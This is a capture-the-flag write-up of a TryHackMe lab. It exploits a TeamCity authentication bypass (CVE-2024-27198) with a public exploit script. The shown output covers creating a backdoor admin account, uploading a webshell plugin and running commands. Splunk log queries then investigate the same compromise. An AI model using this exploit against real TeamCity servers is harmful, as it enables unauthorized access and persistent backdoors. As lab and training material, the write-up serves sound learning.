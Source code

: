 ```yaml
---
title: "TryHackMe: Brains"
author: C3L1KD
categories: [TryHackMe]
tags: [web, authentication bypass, rce, splunk]
render_with_liquid: false
img_path: /images/tryhackme_brains/
image:
  path: room_image.webp
---
```


**Brains** was a room focused on an **authentication bypass** vulnerability in **TeamCity** (**CVE-2024-27198**). We began as an attacker, exploiting the vulnerability to achieve **remote code execution (RCE)** and capture a flag. Afterward, we switched roles to become a defender, using **Splunk** to inspect logs and answer questions related to an attacker who had compromised a machine using the same vulnerability.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/brains){: .center }

## Red Team

We begin the room on the red side, tasked with attacking a target. Starting with an `nmap` scan.

### Nmap Scan

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.164.206
Nmap scan report for 10.10.164.206
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
|   256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_  256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open  ibm-db2?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Fri, 04 Oct 2024 23:37:31 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
...
```

Three ports are open:

- **22** (SSH)
- **80** (HTTP)
- **50000** (HTTP)

### Web 80

Upon visiting `http://10.10.164.206/`, we encounter a simple page displaying a "Maintenance" message.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

### Web 50000

Accessing `http://10.10.164.206:50000/`, we find a `TeamCity Version 2023.11.3 (build 147512)` installation.

![Web 50000 Index](web_50000_index.webp){: width="1200" height="600" }

### CVE-2024-27198

Searching for vulnerabilities in `TeamCity Version 2023.11.3`, we discover [this article](https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199), which details an **authentication vulnerability** in **TeamCity** due to URL parsing. It also explains how this can be exploited for **remote code execution (RCE)** by using the vulnerability to interact with the API, allowing the creation of an admin account that can then be used to upload a malicious plugin.

Looking for available exploits, we find [this exploit](https://github.com/W01fh4cker/CVE-2024-27198-RCE) that automates the aforementioned steps.

After downloading and running the exploit, we gain a shell as the `ubuntu` user and can read the flag located at `/home/ubuntu/flag.txt`.

```console
$ python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.164.206:50000

 _____                     ____ _ _           ____   ____ _____
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker

[+] User added successfully, username: xbbzhkls, password: RdlWm1rrIS, user ID: 11
[+] The target operating system version is linux
[!] The current version is: 2023.11.3 (build 147512). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y
[+] The malicious plugin FAzd42PL was successfully uploaded and is trying to be activated
[+] Successfully load plugin FAzd42PL
[+] The malicious plugin FAzd42PL was successfully activated! Webshell url: http://10.10.164.206:50000/plugins/FAzd42PL/FAzd42PL.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
command > wc -c /home/ubuntu/flag.txt
38 /home/ubuntu/flag.txt
```
{: .wrap }


## Blue Team

Next, we transition to the blue side, starting by logging into the provided `Splunk` server and navigating to the `Search & Reporting` section.

### Added User

Our first question is: **What is the name of the backdoor user that was created on the server after exploitation?** 

We can find this by searching the `/var/log/auth.log` source for the `useradd` string with the query: `source="/var/log/auth.log" *useradd*`.

We can observe the backdoor user being created on **July 4, 2024**.

![Splunk Useradd](splunk_useradd.webp){: width="1200" height="600" }

### Installed Package

Our next question is: **What is the name of the malicious-looking package installed on the server?** 

To find the answer, we can look for packages installed around the same timeframe as the user creation using the `/var/log/dpkg.log` source with the query: `source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*`.

![Splunk Package Installed](splunk_package_installed.webp){: width="1200" height="600" }

### Plugin Upload

The final question is: **What is the name of the plugin installed on the server after successful exploitation?** 

We can find the answer by searching the `/opt/teamcity/TeamCity/logs/teamcity-activities.log` source for the `plugin` keyword: `source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*`.

![Splunk Plugin Upload](splunk_plugin_upload.webp){: width="1200" height="600" }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>